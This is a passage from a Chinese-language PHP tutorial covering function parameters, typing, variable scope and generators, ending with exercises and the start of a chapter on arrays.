echo double(3); //Calculates the double of 3
echo "<br>";
echo double(10); //Calculates double 10
echo "<br>";
echo double(12); //Calculates the double of 12
echo "<br>";
echo double(87); //Calculates double 87
echo "<br>";
echo double(65); //Calculates double 65
echo "<br>";
?>
```

执行此代码会产生以下结果：



### 带默认设置的函数

在本节中，我们将学习带默认参数的函数。这些函数允许您为某些参数定义默认值，这意味着在调用函数时可以省略这些参数。以下是定义带默认参数的函数的一般语法：

```php
function function_name(param1, param2=default_value) {
  // Block of code to execute
}
```


在此语法中，$param1 是必填参数，而 $param2 是带有默认值的可选参数。

调用函数时，如果未为 $param2 传递参数，则将使用其默认值。否则，调用时传递的值将替换默认值。

以下是使用带默认参数的函数的示例：

```php
<?php
function greet($name = "My friend") {
   echo "Hello, $name!";
}

// Function calls with and without parameter specification
greet(); // Display "Hello, My friend!"
echo "<br>"; // Line break
greet("Alice"); // Display "Hello, Alice!"
?>
```

在此示例中，greet() 函数接受一个带有默认值 "My friend" 的 $name 参数。当不带参数调用函数时，它使用此默认值。当传递参数时，它替换默认值，因此执行此代码得到以下结果：



带默认参数的函数在定义函数时提供了额外的灵活性，允许开发者指定默认行为，同时保留根据需要对其进行自定义的可能性。

### 示例 2：

```php
<?php
// Function definition
function display_name($firstname, $lastname = "Mercier") {
// Checks if the name is not "Mercier".
if ($lastname != "Mercier") {
echo "Your last name is $lastname and your first name is $firstname";
} else {
echo "Your first name is: $firstname";
}
}
// call the display_name function with a single argument ("Amandine")
display_name("Amandine");
echo "<br>";
// call the display_name function with two arguments ("Sarah" and "Smith")
display_name("Sarah", "Smith");
?>
```

此代码定义了一个 **display_name()** 函数，该函数接受必填参数 $firstname 和带有默认值 "Mercier" 的可选参数 $lastname。调用函数时，它检查姓氏是否不同于 "Mercier"。如果是，则同时显示名和姓，否则仅显示名。

如果运行此代码，将得到以下结果：



- 当我们用单个参数调用函数（display_name("Amandine")）时，它使用名 "Amandine" 和默认姓 "Mercier"，因此显示 "Your first name is: Amandine"。
- 当我们用两个参数调用函数（display_name("Sarah", "Smith")）时，它使用名 "Sarah" 和指定的姓 "Dupont"，因此显示 "Your last name is Smith and your first name is Sarah"。

### 带引用参数的函数

要介绍本节，让我们考虑一个用于翻倍作为参数传递的数字的简单函数的代码：

```php
<?php
function double($number) {
	$number *= 2;
}

$x = 10;
double($x); // call the double() function
echo $x;
?>
```

此代码定义了一个名为 "double" 的函数，该函数接受一个参数 $number。在函数中，使用复合赋值运算符 "*=" 将 "$number" 的值乘以 2。这意味着 "$number" 变量将被翻倍。

接下来，将变量 $x 初始化为 10。然后用 $x 作为参数调用 "double" 函数。

如果运行此代码，您将得到变量 $x 的值。在此示例中，您将始终得到 10，因为 "double" 函数使用 $x 值的副本，而不是对变量本身的引用。

但是，有时您可能需要函数直接修改作为参数传递的变量的值，并且该更改在程序的其余部分保持有效。为此，您可以使用引用参数的概念。

引用参数允许函数直接修改作为参数传递的变量的值。
要声明引用参数，请在函数签名中使用 & 符号在参数名称之前。

如果我们采用与上面相同的示例，并在函数参数前添加 & 符号，这将允许 "double" 函数直接修改 $x 变量的值，因此在调用函数后显示 $x 时，您将得到 20。

```php
<?php

function double(&$number) {
    $number *= 2;
}

$x = 10;
double($x); // call the double() function
echo $x;

?>
```

### 引用函数与值函数

带引用参数的函数允许您直接修改作为参数传递给函数的变量的值，并且此更改在退出函数后仍然有效。与按值传递参数的函数不同，后者使用作为参数传递的变量值的副本，按引用传递参数的函数直接作用于原始变量。

### 了解带引用参数的函数的工作原理：

- 当您调用函数并按 **引用** 传递参数时，PHP 将原始变量的内存地址存储在内部引用中。
- 在函数内部，当您使用此参数时，PHP 使用此内部引用直接访问原始变量并进行必要的修改。
- 通过此参数对变量所做的任何修改都会直接影响原始变量，因为 PHP 使用的是变量本身的内存地址，而不是其值的副本。

这允许函数直接修改原始变量，并且这些修改在退出函数后仍然保留。这就是为什么在需要修改变量的值并希望该修改在函数外部可见时使用引用参数的原因。

### 了解按值传递参数的函数的工作原理：

- 当您调用函数并按 **值** 传递参数时，PHP 创建原始变量值的 **副本** 并将其分配给函数内部使用的 **新内存位置**。
- 在函数内部，对按值传递的参数所做的任何修改仅影响此值的 **副本**，不会修改函数外部的原始变量。
- 当函数结束时，按值传递的参数值的副本会被 **销毁**，原始变量保持不变。

这意味着在函数内部对按值传递的参数所做的修改仅局限于该函数，在函数外部不可见。通常在希望在函数内部使用变量的值而不修改函数外部的原始变量时使用按值传递的参数。

## 带命名参数的函数

在 PHP 中，函数还可以接受所谓的命名参数，在调用带有多个参数的函数时提供了更大的灵活性。请考虑以下代码：

```php
<?php
function infos_display($lastname, $firstname, $age, $isactive){
   return "Last Name: $lastname, First Name: $firstname, Age: $age, Active: $isactive";
}

$person_info = infos_display("Dupont", "Jean_marc", 32, True);
echo $person_info;
?>
```

在此示例中，我们有一个名为 "infos_display" 的函数，它接受四个参数：$lastname、$firstname、$age 和 $isactive。然后函数返回由这些参数组成的句子。
然后我们调用此函数，将返回值存储在 $person_info 变量中，然后显示它。

如果运行此代码，您将得到类似以下的结果：

Last Name: Dupont, First Name: Jean_marc, Age: 32, Active: 1

但是，如果在调用函数时，我们不遵守参数的顺序会怎样呢？

```php
$person_info = infos_display(32, True, "Jean-Marc", "Dupont");
echo $person_info;
```

在此示例中，我们尝试以不同于定义顺序的顺序调用带有参数的函数。我们没有遵守函数参数的顺序（姓、名、年龄、是否活跃），而是颠倒了此顺序，以不同的方式传递了值：姓为 32，名为 True，年龄为 "Jean-Marc"，是否活跃为 "Dupont"。

在此情况下，执行代码将得到以下结果：

姓氏：32，名字：1，年龄：Jean-Marc，活跃：Dupont

在显示个人信息时，我们获得的结果是不正确的。我们没有得到预期的详细信息，而是得到了意外的输出。为了解决这个问题，PHP 8 引入了命名参数的概念。事实上，命名参数允许以颠倒的参数顺序调用函数。

有了命名参数，我们在调用函数时可以显式地指定每个参数的名称，后跟冒号 ( : )，再后跟其值。这样可以确保每个参数都与正确的参数关联，无论它们在函数调用中的传递顺序如何。因此，即使我们在函数调用中颠倒了参数的顺序，使用命名参数也能保证函数根据其关联的参数正确处理每个值。以下是使用命名参数并补救因颠倒函数参数顺序而可能出现的问题的方法。

```php
function infos_display($lastname, $firstname, $age, $isactive) {
return "Last Name: $lastname, First Name: $firstname, Age: $age, Active: $isactive";
}
$person_info = infos_display(age:32, isactive:True, firstname: "Jean-Marc", lastname: "Dupont");
echo $person_info;
?>
```

执行此代码时，结果与调用 infos_display() 函数并尊重参数顺序时获得的结果相同。



## PHP 中的类型

在 PHP 中，可以指定参数和函数返回值的类型，以提高代码清晰度并保证更好的数据完整性。PHP 中可使用两种类型：严格类型和弱类型。

### 弱类型

默认情况下，PHP 使用弱类型，这意味着函数参数和返回值的数据类型没有显式声明。这提供了很大的灵活性，但有时可能导致难以检测的错误。

#### 无类型的函数示例

```php
<?php
function addition($a, $b) {
return $a + $b;
}

$result1 = addition(5,10);
echo $result1 ."<br>";

$result2 = addition(5, "10");
echo $result2 ."<br>";

?>
```

此 PHP 代码定义了一个名为 addition 的函数，该函数接受两个参数 $a 和 $b，并返回这两个参数的和。然后用不同的参数两次调用该函数。
在本示例中，**addition()** 函数未指定其 $a 和 $b 参数的类型。它们可以是任何数据类型，函数的结果将取决于传递的值的类型。

在函数 **addition(5, 10)** 的第一次调用中，两个参数都是整数（$a = 5$ 和 $b = 10$）。函数返回这两个数字的和，即 15，并将此值赋给变量 $result1。最后，显示 $result1 的值，输出结果为 15。

在函数 **addition(5, "10")** 的第二次调用中，第一个参数是整数（$a = 5$），但第二个参数是字符串（$b = "10"$）。PHP 对加法执行**自动类型转换**，将字符串 "10" 转换为整数。因此，函数也返回 15（5 和 10 的和），并将此值赋给变量 $result2。最后，显示 $result2 的值，输出结果同样为 15。

总之，两次调用 addition 函数的结果相同（都是 15），尽管第二次调用将字符串用作第二个参数。这是因为 PHP 在加法操作期间执行的自动类型转换。

### 严格类型

严格类型是 PHP 7 引入的功能，可以显式指定参数和函数返回值的数据类型。这样可以在开发阶段尽早检测类型不一致，从而有助于减少错误。

要启用严格类型，必须在 PHP 脚本开头声明：**declare(strict_types=1);**：

```php
declare(strict_types=1);

function add(int $a, int $b): int {
    return $a + $b;
}
```

要声明参数类型，只需在每个参数前指定所需类型；要指定函数返回值的类型，只需在参数列表后加上冒号 (:)，再跟上预期的返回类型。

让我们通过指定参数类型和输出类型来修改之前的示例：

```php
<?php
declare(strict_types=1);

function addition(int $a, int $b): int {
	return $a + $b;
}

$result1 = addition(5,10);
echo $result1 ."<br>";

$result2 = addition(5,"10");
echo $result2 ."<br>";
?>
```

运行此代码，您将得到类似下面的结果：



结果首先显示数字 15，这对应于变量 $result1 的值。当我们调用函数 addition(5,10); 时，我们传递两个整数，这与声明的类型一致。因此，函数将这两个整数相加并返回一个整数结果，存储在变量 $result1 中，然后显示。

但是，在以下调用 addition(5, "10"); 中，我们传递了一个整数和一个字符串，这与声明的类型 **int** 不符。由于启用了**严格**类型，这会生成一个致命错误，因为提供的数据类型与函数期望的类型不匹配。结果，脚本停止并显示错误，而不是在没有严格类型的情况下会自动将字符串转换为整数。

最后，请注意，从 PHP 8 开始，可以使用新的类型联合运算符 |（竖线）为同一个参数指定多种类型。这样可以定义参数可以接受多种不同的数据类型。例如，如果参数可以是整数或字符串，可以按如下方式声明：

```php
<?php

function example(int|string $parameter1, float|int $parameter2) {
    // Body of function
}

?>
```

在此示例中，$parameter1 可以是整数或字符串。至于 $parameter2，它可以是小数或整数。这在为函数定义参数类型时提供了更大的灵活性。

## 变量作用域

变量作用域是编程中的一个基本概念，它决定了变量在 PHP 脚本中可以在哪里使用。理解变量作用域对于编写结构良好的代码、避免逻辑错误以及确保程序顺利运行至关重要。

在 PHP 中，变量可以根据其在脚本中的位置具有不同的作用域。有些变量可以从脚本中的任何位置访问，而其他变量则仅限于代码的特定部分。

在本节中，我们将探讨 PHP 中的不同变量作用域类型、它们的定义和用法，以及有效处理它们的最佳实践。我们还将探讨与变量作用域相关的常见陷阱以及如何避免它们。

让我们首先了解 PHP 中变量作用域的主要概念以及它们如何影响我们编写代码的方式。

### 全局作用域

在 PHP 中，在任何函数之外声明的变量具有全局作用域。这意味着它们可以从 PHP 脚本中的任何位置访问，包括函数内部和外部。

当变量在任何函数之外声明时，它会自动成为全局变量。例如：

```php
<?php
$global_variable = "I am a global variable";
function display_global_variable() {
global $global_variable;
echo $global_variable;
}
display_global_variable(); // Call function
?>
```

在此示例中，$global_variable 是一个全局变量，因为它在任何函数之外声明。它可以在 display_global_variable() 函数内部使用，但前提是使用 global 关键字。

需要注意的是，使用全局变量会使代码可读性降低且更难以维护，因为它们可能在脚本的不同点以不可预测的方式被修改。因此，建议限制全局变量的使用。

执行此代码会显示以下结果：




Warning: 如果你尝试在函数内部使用全局变量，却没有使用 global 关键字进行声明：

```php
<?php
$global_variable = "I am a global variable";
function display_global_variable() {
    echo $global_variable;
}

display_global_variable(); // Call function
?>
```



## 局部作用域

在局部作用域中，变量是在函数内部声明的，并且只能在该函数内部访问。这些变量仅在函数运行期间存在，函数一结束就会被销毁。这意味着它们不能在声明它们的函数之外使用。这种作用域限制有助于避免代码不同部分之间的变量名称冲突。

以下示例说明了变量的局部作用域：

```php
<?php
function displayMessage() {
    $message = "Hello, world!";
    echo $message;
}

displayMessage(); // Displays "Hello, world!"

echo $message; // Attempt to access variable $message
?>
```

在此示例中，$message 变量是在 displayMessage() 函数内部声明的，因此它是此函数的局部变量。这个 $message 变量不能在定义它的函数之外访问。当我们尝试在函数外部显示该变量的值时，会生成一个错误，指出在代码的此点上不认识 $message 变量。



此演示突出了 PHP 中变量的局部作用域。局部变量仅限于声明它们的函数，不能在该函数之外使用。这有助于避免命名冲突，并使代码更加模块化和有条理。

## 静态作用域

在函数内部创建的局部变量，在函数执行结束时会自动销毁。然而，在某些情况下，我们可能需要在多次调用函数之间保留该变量的值，以便日后使用，因此有了静态作用域的概念。

在 PHP 中，静态变量作用域允许变量在多次函数调用之间保留其值。与在每次函数调用时创建和销毁的局部变量不同，静态变量在函数退出后仍保留其值。

请考虑以下示例：

```php
<?php
function counter() {
    $counter = 0;
    $counter++;
    echo "Number of function calls : $counter <br>";
}
counter();
counter();
counter();
?>
```

在此示例中，我们有一个名为 "counter()" 的函数，它在每次调用函数时都将名为 "$counter" 的局部变量初始化为零。然后在每次调用时将该变量加 1，并显示此时的函数调用总数。但是，由于 "$counter" 变量在每次调用函数时都会被重新定义，并且是函数的局部变量，因此它每次都会被重置为零。结果，每次调用函数时，显示的调用次数始终是 "1"。

Number of function calls : 1
Number of function calls : 1
Number of function calls : 1

这突出了这样一个事实：函数中局部变量的作用域仅限于该函数的特定调用，并且局部变量在函数调用完成后会自动销毁。

然而，在某些情况下，我们可能需要在多次函数调用之间保留该变量的值。要做到这一点，只需使用关键字 **静态** 声明变量 $counter：

```php
<?php

function counter() {
static $counter = 0;
$counter++;
echo "Number of function calls : $counter <br>";
}

counter();
counter();
counter();
?>
```

在此示例中，$counter 变量在 counter() 函数内部使用 static 关键字声明为静态变量。每次调用 counter() 函数时，都会使 $counter 变量加 1，并且其值在多次函数调用之间保留。这样，每次调用都会显示函数调用的总数，并且每次调用都会递增。



总之，PHP 中的变量作用域是一个基本概念，它决定了变量在脚本中何时何地可以使用。在前述内容中，我们已经了解了三种变量作用域：全局、局部和静态。

理解这些不同的作用域对于编写强健且易于维护的代码至关重要。现在让我们来看看每种作用域类型的摘要。

## 全局作用域

- 在任何函数之外声明的变量被视为全局变量。
- 它们可以使用 **全局** 关键字在任何函数内部使用。
- 它们的作用域扩展到整个 PHP 脚本。
- 在函数内部对全局变量所做的更改在函数外部也可见。

## 局部作用域

- 在函数内部声明的变量被视为局部变量。
- 它们只能在声明它们的函数内部访问。
- 局部变量在声明它们的函数结束时立即被销毁（释放）。
- 局部变量可以与全局变量同名，但它们具有局部作用域，不会修改同名的全局变量。

## 静态作用域

- 静态变量是在函数内部使用 **静态** 关键字声明的。
- 与普通局部变量不同，静态变量在函数执行结束时不会被销毁。
- 静态变量的值在多次函数调用之间保留。
- 对函数的每次后续调用都保留静态变量在上一次调用结束时的值。
- 静态变量允许您在函数调用之间存储信息，而无需使用全局变量，从而在局部变量值中提供一定程度的持久性。



## 生成器：一种特殊的函数类型

PHP 中的生成器是特殊函数，允许您高效且简洁地创建自定义迭代器。与返回值后终止的传统函数不同，生成器可以在某个点暂停执行，同时保留其内部状态。这意味着它们可以随时间生成一系列值，这使得它们特别适用于处理大量数据或生成无限序列。

定义生成器的语法与普通函数类似，但不是使用 **返回** 关键字来返回值，而是使用 **生成** 关键字。以下是一个生成偶数序列的简单生成器示例：

```php
<?php
function generate_even_numbers($max) {
for ($i = 0; $i <= $max; $i += 2) {
yield $i;
}
}
?>
```

在此示例中，函数 generate_even_numbers() 是一个生成器，它生成一个直到给定最大值的偶数序列。当调用此函数时，它不会立即开始执行其代码。相反，它返回一个生成器对象，可以使用 foreach 循环或其他迭代方法进行迭代。

以下是如何使用此生成器显示最多 17 的偶数：

```php
<?php
function generate_even_numbers($max) {
    for ($i = 0; $i <= $max; $i += 2) {
        yield $i;
    }
}

foreach (generate_even_numbers(17) as $number) {
    echo $number . " ";
}
?>
```

此代码将生成：0 2 4 6 8 10 12 14 16 ：



以下是一个更简单的生成器示例，用于生成属于给定区间的整数序列：

```php
<?php
function generate_even_numbers2($min, $max) {
for ($i = $min; $i <= $max; $i++) {
yield $i;
}
}
// Use the generator to display a sequence of numbers
foreach (generate_even_numbers2(21, 35) as $number) {
echo $number . " ";
}
?>
```

此代码将生成以下结果：



## 生成器委托

生成器委托是一个高级概念，允许一个生成器调用另一个生成器以获取值。这使得可以将值生成逻辑解耦，并在新生成器中重复使用现有生成器。

以下是生成器委托的示例：

假设我们有两个生成器，一个生成偶数，另一个生成奇数。我们可以创建第三个生成器，它使用这两个生成器来生成偶数和奇数


## 数字。

```php
<?php
// First even number generator
function generate_even_numbers($max) {
    for ($i = 0; $i <= $max; $i += 2) {
        yield $i;
    }
}

// Second odd number generator
function generate_odd_numbers($max) {
    for ($i = 1; $i <= $max; $i += 2) {
        yield $i;
    }
}

// Third generator calling the 2 previous generators
function generate_even_odd_numbers($evenmax, $oddmax) {
    yield from generate_even_numbers($evenmax);
    yield from generate_odd_numbers($oddmax);
}
```

```php
// Use the generator to display a sequence of even and odd numbers
foreach (generate_even_odd_numbers(20, 30) as $number) {
    echo $number . " ";
}

?>
```

此代码定义了三个数字生成器：generate_even_numbers()、generate_odd_numbers() 和 generate_even_odd_numbers()。

第一个生成器 **generate_even_numbers()** 生成一个直到指定最大值的偶数序列。第二个生成器 **generate_odd_numbers()** 生成一个直到指定最大值的奇数序列。

第三个生成器 **generate_even_odd_numbers()** 使用生成器委托（使用 **yield from** 关键字）来调用前两个生成器，并生成一个交替的偶数和奇数序列，直到每个生成器指定的最大值。

接下来，代码使用生成器 **generate_even_odd_numbers()** 显示一个数字序列，偶数最高到 20，奇数最高到 30。这是通过使用 foreach 循环实现的，该循环遍历生成器生成的值并在屏幕上显示它们。

执行此代码将产生以下结果：



## 结论

PHP 函数是基本的编程元素，能够将代码组合在一起，使其可重用且模块化。它们提供了一种高效的方式来组织和结构化代码，使维护和项目管理更加容易。我们已经探索了函数的各个方面，包括它们的声明、调用、参数管理和变量作用域，以及类型和命名参数等更高级的概念。

理解函数的工作原理以及如何恰当地使用它们，对任何 PHP 开发者都至关重要，因为这能够实现创建更健壮、可扩展且易于维护的应用程序。通过掌握本章介绍的概念，你将能够编写更整洁、更模块化且更高效的代码，这将显著提升你作为 PHP 开发者的生产力。

## 练习

## 练习 12

编写一个函数，用于测试一个数字是否是 3 的倍数，并根据测试结果显示一条消息。

## 练习 13

编写一个 PHP 函数，接受三个数字作为输入，并返回这三个数字中最大的一个。

## 练习 14

编写一个函数，显示找到作为参数给定的两位整数所需的随机数字。

## 第 5 章

PHP 中的数组

数组在编程中起着至关重要的作用，为组织和操作数据集提供了一种强大且灵活的方式。在 PHP 中，数组是多功能的数据结构，可以包含不同类型元素的有序集合，例如数字、字符串甚至其他数组。本章详细探讨了 PHP 中的数组，从它们的声明和初始化到使用预定义函数进行高级操作。掌握数组对于创建动态的高性能 Web 应用程序至关重要。

在 PHP 中，数组是一种允许你在单个变量中存储多个值的数据结构。这些值可以是各种类型，例如整数、字符串、布尔值等等。数组中的每个值都与一个键相关联，该键可能是数字或字符串，具体取决于数组类型。

在 PHP 中，有几种类型的数组。让我们探索 PHP 中的数组世界，发现它们所提供的一切！

| 键 | 值 |
| :--- | :--- |
| 姓氏 | Dupont |
| 名字 | Amine |
| 年龄 | 29 |
| 性别 | M |
| 国家 | 加拿大 |

| 索引 | 值 |
| :--- | :--- |
| 0 | Emma |
| 1 | Alice |
| 2 | Lina |
| 3 | Sarah |
| 4 | Thomas |

## 索引数组（数字索引）

索引数组（也称为数字数组）是一种数据结构，其中每个元素都与一个数值索引相关联。这些索引通常从零开始，每增加一个元素就加 1。

索引数组是 PHP 中最简单的数组形式之一，广泛用于存储有序数据集合。

在本节中，我们将探讨如何在 PHP 中声明、初始化和操作索引数组。我们还将发现添加、修改、删除和遍历索引数组元素等常见操作。通过理解这些基本概念，你将能够在 PHP 项目中高效地使用索引数组。

## 索引数组的声明与初始化

在 PHP 中，你可以用多种方式声明和初始化索引数组。以下是一些示例：

```php
<?php
// Declaration of an empty indexed array
$empty_array = [];

// Declaration and initialization of an indexed array with values
$numbers = [10, 20, 30, 40, 50];

